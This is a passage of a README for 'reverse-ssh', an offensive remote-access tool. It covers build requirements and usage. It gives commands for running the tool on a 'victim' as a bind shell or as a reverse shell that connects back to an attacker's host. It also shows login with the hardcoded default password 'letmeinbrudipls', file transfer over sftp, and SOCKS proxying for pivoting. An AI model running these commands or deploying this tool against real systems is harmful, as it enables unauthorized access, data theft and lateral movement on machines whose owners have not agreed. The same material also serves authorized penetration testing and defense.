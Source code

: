 * **Linux**: kernel version 2.6.23 and higher
* **Windows**: Windows Server 2008R2 and higher or Windows 7 and higher

Compiling additionally requires the following:

* golang version 1.16
* optionally `upx` for compression (e.g. `sudo apt install upx-ucl` for Debian-based)


## Usage

Once `reverse-ssh` is running on the victim, you can connect with any username and the default password `letmeinbrudipls`, the ssh key or whatever you specified during compilation.
After all, it is just an ssh server:

```
# Fully interactive shell access
$ ssh -p <RPORT> <RHOST>

# Simple command execution
$ ssh -p <RPORT> <RHOST> whoami

# Full-fledged file transfers
$ sftp -P <RPORT> <RHOST>

# Dynamic port forwarding as SOCKS proxy on port 9050
$ ssh -p <RPORT> -D 9050 <RHOST>
```

### Running ReverseSSH as bind shell

```
# Victim
victim$ ./reverse-ssh

# Attacker (default password: letmeinbrudipls)
attacker$ ssh -p 31337 <RHOST>
```

### Running ReverseSSH as reverse shell

Note: you can compile ReverseSSH with parameters for LHOST and LPORT to ease execution on the target, [see below](#build-tricks)

```
# On attacker (get ready to catch the incoming request;
# can be omitted if you already have an ssh daemon running, e.g. OpenSSH)
# NOTE: LPORT of 8888 collides with incoming connections; use the flag `-b 8889` or similar on the victim in that case
attacker$ ./reverse-ssh -v -l -p <LPORT>

# On victim
victim$ ./reverse-ssh -p <LPORT> <LHOST>
# or in case of an ssh daemon listening at port 22 with password authentication for user 'kali'
victim$ ./reverse-ssh -p 22 kali@<LHOST>

# On attacker (default password: letmeinbrudipls)
attacker$ ssh -p 8888 127.0.0.1
# or with ssh config from below
attacker$ ssh target
```
